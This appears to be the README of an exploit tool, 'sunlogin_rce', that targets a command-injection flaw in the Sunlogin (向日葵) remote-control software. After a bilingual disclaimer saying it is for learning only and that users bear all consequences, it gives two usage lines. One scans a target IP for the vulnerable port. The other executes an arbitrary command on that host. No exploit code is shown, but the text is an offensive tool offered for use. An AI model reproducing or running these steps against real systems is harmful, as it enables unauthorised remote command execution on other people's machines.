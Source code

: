 # sunlogin_rce
# 免责声明
仅供学习交流，未经作者许可不得转载
任何因传播和使用本工具而造成的直接或间接后果和损失均由用户自行承担，作者对此不承担任何责任。
# Disclaimer
It is only for learning and communication, and cannot be reproduced without the permission of the author
Any direct or indirect consequences and losses caused by the dissemination and use of this tool are the responsibility of the user, and the author does not assume any responsibility for this.

向日葵 命令注入（rce）利用
sunlogin_rce.exe -H ip 扫描存在的端口
sunlogin_rce.exe -H ip -P rce 端口 -C 执行命令
